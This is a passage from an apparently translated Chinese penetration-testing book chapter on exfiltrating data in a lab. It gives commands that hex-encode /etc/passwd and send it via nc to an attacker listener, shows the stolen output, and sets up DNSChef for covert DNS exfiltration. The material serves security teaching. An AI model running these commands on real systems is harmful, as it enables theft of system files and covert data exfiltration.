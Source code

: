 例如，在通过 TCP 发送 */etc/passwd* 文件的内容之前，我们可以使用 xxd 将 ASCII 数据转换为十六进制。为了接收这些数据，我们将在 Kali 上设置一个 socat TCP 监听器。运行列表 12-27 中的命令以启动监听器。

```
$ **socat TCP-LISTEN:12345,reuseaddr,fork - | xxd -r -p**
```

列表 12-27：创建一个解码十六进制数据的 TCP 监听器

socat 将在端口 12345/TCP 上监听，并将原始数据传输到 xxd，将十六进制数据转换为可读的文本。

接下来，我们将通过使用 nc 将文件内容以十六进制形式传输。在任何一台实验室机器上运行列表 12-28 中的命令，例如 *p-jumpbox-01*（172.16.10.13）。

```
$ **xxd -p /etc/passwd | nc 172.16.10.1 12345**
```

列表 12-28：在通过 TCP 传输文件数据之前对其进行编码

在你的监听器中，你应该看到解码后的 */etc/passwd* 内容：

```
socat TCP-LISTEN:12345,reuseaddr,fork - | xxd -r -p

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
`--snip--` 
```

你可以通过设置连接的两端使用 SSL 来建立加密的外泄通道，进一步改进这个外泄方法，就像你在第七章中所做的那样。

### DNS

DNS 协议通常是一个有效的数据提取方法，因为它很少被阻止或监控。我们可以悄悄地将数据从网络传输到我们操作的外部 DNS 服务器，然后监控它以捕获所有传入的查询。

为了渗透测试的目的，我们可以设置一个简单的 DNS 服务器，如 dnserver（*[`github.com/samuelcolvin/dnserver`](https://github.com/samuelcolvin/dnserver)*），但在这个示例中，我们将使用 DNSChef（*[`github.com/iphelix/dnschef`](https://github.com/iphelix/dnschef)*），一个基于 Python 的 DNS 代理，来捕获传入的查询。DNSChef 应该可以通过 dnschef 命令在 Kali 中使用。

首先，让我们通过一些特定的标志启动 DNSChef 服务器。这些标志配置服务器为特定域提供伪造的查询解析：

```
$ **sudo dnschef \**
 **--fakedomains blackhatbash.com \**
 **--fakeip 127.0.0.1 --interface 0.0.0.0 \**
 **--logfile dnschef.log** 
```

我们传递 --fakedomains blackhatbash.com 和 --fakeip 127.0.0.1，将所有传入查询解析到 *blackhatbash.com* 域的 IP 地址 127.0.0.1（本地主机）。接着我们传递 --interface 0.0.0.0，确保 DNSChef 在所有接口上响应所有传入查询。然后，我们指定 --logfile dnschef.log，将运行时输出写入文件。

现在 DNS 服务器正在运行，它可以处理 DNS 查询。使用任何实验室机器运行 Listing 12-29 中的命令。
